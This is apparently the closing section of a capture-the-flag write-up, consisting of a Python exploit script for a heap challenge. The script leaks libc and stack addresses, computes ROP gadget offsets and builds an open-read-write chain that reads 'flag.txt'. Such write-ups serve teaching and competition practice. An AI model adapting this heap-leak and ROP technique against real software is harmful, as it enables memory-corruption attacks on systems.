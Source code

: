 ```py
add(0, 0x0, "asdf", usecontent=False)
view(0)
libc_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
print(hex(libc_leak))
libc_base = libc_leak - 0x1ebbf0
lose(1)

environ = libc_base + 0x1ef2e0
open_func = libc_base + 0x110e50
read_func = libc_base + 0x111130
write_func = libc_base + 0x1111d0
pop_rdi = libc_base + 0x0000000000026b72
pop_rsi = libc_base + 0x0000000000027529
pop_rdx = libc_base + 0x0000000000162866
pop_rsp = libc_base + 0x0000000000032b5a
ret = libc_base + 0x0000000000025679
pop_rcx = libc_base + 0x00000000001056fe
syscall = libc_base + 0x000000000011b880


# Get stack address leak
buf = b""
buf += p64(0x1)
buf = buf.ljust(128, b"\x00")
buf += p64(environ)
add(1, 0x280, buf)

add(0, 0, "asdf", usecontent=False)
view(0)
stack_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
print(hex(stack_leak))
lose(1)


## ROP chain!
buf = b""
buf += p64(0)*2 + p64(0x0101010101010101)*6
buf = buf.ljust(128, b"\x00")
buf += p64(stack_leak-0x158)*32
add(1, 0x280, buf)
add(0, 0x130, p64(ret)*10 + p64(pop_rsi) + p64(stack_leak-0xd8) + p64(pop_rdx) + p64(0)*2 + p64(pop_rcx) + b"flag.txt" + p64(0) + p64(pop_rdi) + p64(2) + p64(syscall) + 
    p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(stack_leak) + p64(pop_rdx) + p64(0x1000)*2 + p64(read_func) + 
    p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(stack_leak) + p64(pop_rdx) + p64(0x50)*2 + p64(write_func))

p.interactive()
```

Thanks for reading :)

